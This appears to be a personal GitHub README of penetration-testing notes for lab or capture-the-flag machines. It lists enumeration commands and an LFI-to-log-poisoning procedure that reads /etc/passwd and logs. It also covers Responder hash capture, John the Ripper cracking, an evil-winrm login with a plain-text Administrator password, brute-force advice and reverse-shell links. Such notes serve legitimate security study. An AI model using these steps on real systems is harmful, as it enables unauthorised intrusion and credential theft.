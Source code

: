# Zero-to-Hero-Pen-Testing-Notes-

1.Always maunally ennumerate and check the source code control+u/ Check /robots.txt /sitemap.xml\
2.gobuster dir -u http://$IP:PORT -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt\    -b (for bad servercode) -f (add this flag if gobuster is not returing any results for a long time) \
2.5 wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200 http://$IP/FUZZ \ 
2.6. Check wappalayzer to check basic info of the page. \
3. nikto -h $IP   
4. If you do not find any specific directory add the -f flag to go buster and rerun\
5. If you find some directory and stuck  make sure to run gobuster again with the new directory i.e http:\\$IP/newDirectory  
6.

# Possible web vulnerabilities
## LFI
1. LocalFile Inclusion: We can log poision if linux based or try remote access control if Window
2. Check links ending with ?file=index.php ?book=  (Possible vulnerabilities in source code)
3. book= ../../../../etc/passwd   (Figure out if the server is hosting on **Window or apache )
4. ../../../../var/www/html/index.php  html to confirm log poisoning 
5. Add  ../ ../../../../ and check if the following following files exists.
6. /etc/passwd\ /var/log/mail/USER\  /var/log/apache2/access.log\  /proc/self/environ\  /tmp/sess_ID\ /var/lib/php5/sess_ID\ /var/log/auth/log\  
7. /windows/system32/drivers/etc/hosts (for **window host)\  Go to step 12 
8. Now that we have confirmed LFI vulnerablity, lets log poision ../../../../var/log/apache2/access.log via invalid connection request.
9. Connect to nc -nv $IP port. and insert commandline exeuction payload (This depends on what techonology it is using. php ..etc)
10. check for sucessful log poisioning ../../../../var/log/apache2/access.log&cmd=i.
11. If you receive command execution, we will insert a reversshell via url encoding. Done.
12. Use responder to capture. sudo python3 Responder.py -I tun0. inject file=//$MyIP/testShare in the url. Use john the ripper to match hash. 
13. john -w=/usr/share/wordlists/rockyou.txt hash.txt
14. login to window .evil-winrm -i 10.129.147.34 -u Administrator -p badminton

## Login page
1. Always check for default credentials
2. SQL injection
3. Burpite suite brute force, Hydra (use with caution can be locked out) 
4. Searchsploit Any version info of the login page? ex: pfsense 2.3.2
## Domain/Subdomain 
1. When seeing a contact page, with emails, make note of them, check if they are using some special domain \
2. change /etc/hosts and add the host name
3. gobuster vhost --apend-domain -u http://$DomainName -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \

## XSS

## Getting a stable reverse shell
0. Check what language/ technology it is using ex: php, python, perl and possibly the version, to know which revershell to pick.
1. https://www.revshells.com/
2. Payloads. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python
